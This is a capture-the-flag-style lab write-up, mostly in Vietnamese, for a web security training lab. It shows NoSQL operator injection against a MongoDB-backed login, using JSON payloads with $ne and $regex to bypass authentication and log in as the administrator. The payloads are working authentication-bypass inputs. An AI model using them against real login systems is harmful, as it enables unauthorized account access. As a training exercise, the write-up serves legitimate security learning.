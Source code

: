 # **Lab: Exploiting NoSQL operator injection to bypass authentication**

>  The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.  
 To solve the lab, log into the application as the `administrator` user.  
  You can log in to your own account using the following credentials: `wiener:peter`.  

# **Solution**

Truy cập web, thực hiện đăng nhập với tài khoản được cấp `wiener:peter`. Chuyển req vừa rồi tới repeater:

```
POST /login HTTP/2
Host: 0a32002c030dce18809ed511008a007e.web-security-academy.net
Cookie: session=bGTSUUyPlM6ouKIXwXu40Xq558aYqeVx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a32002c030dce18809ed511008a007e.web-security-academy.net/login
Content-Type: application/json
Content-Length: 40
Origin: https://0a32002c030dce18809ed511008a007e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"username":"wiener","password":"peter"}
```

Chú ý vào phần JSON của req:

```
{"username":"wiener","password":"peter"}
```

Giờ sửa đổi nội dung JSON trên, thay đổi giá trị của `username` như sau:

```
{"username":{"$ne":""},"password":"peter"}
```

Ta thấy đăng nhập thành công, giải thích đoạn JSON trên thì ta đã thay đổi giá trị của `username` thành `{"$ne":""}`.  
Điều này có nghĩa là đăng nhập với các tài khoản có tên đăng nhập khác `""` và mật khẩu là `peter`.

Giờ thử làm điều tương tự với mật khẩu:

```
{"username":{"$ne":""},"password":{"$ne":""}}
```

```

Internal Server Error

Query returned unexpected number of records

```

Tất nhiên do ta đang cố đăng nhập với các tài khoản có username khác rỗng và mật khẩu khác rỗng nên có nhiều hơn một tài khoản được trả về dẫn đến đăng nhập không thành công.

Giờ sửa lại chút, thử đăng nhập với regex:

```
{"username":{"$regex":"wien.*"},"password":{"$ne":""}}
```

Giải thích: Ta đang thực hiện đăng nhập các tài khoản có chứa `wien` và mật khẩu khác rỗng.

Nice, đã đăng nhập thành công với tài khoản wiener.

Giờ làm tương tự để đăng nhập vào tài khoản admin:

```
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

Done~~~